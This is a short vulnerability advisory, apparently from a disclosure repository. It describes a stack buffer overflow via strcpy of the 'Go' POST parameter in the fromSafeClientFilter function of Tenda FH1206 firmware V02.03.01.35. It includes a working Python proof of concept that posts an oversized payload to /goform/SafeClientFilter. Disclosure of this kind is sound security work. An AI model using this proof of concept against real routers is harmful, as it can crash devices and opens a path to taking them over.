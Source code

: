 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeClientFilter` function. This function accepts the `Go` parameter from a POST request. The statement `strcpy(v15, v1);` leads to a buffer overflow. The user-supplied `Go` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 154934.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 154855.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeClientFilter"
payload = b"a"*1000

data = {"Go": payload, "menufacturer": "tenda"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)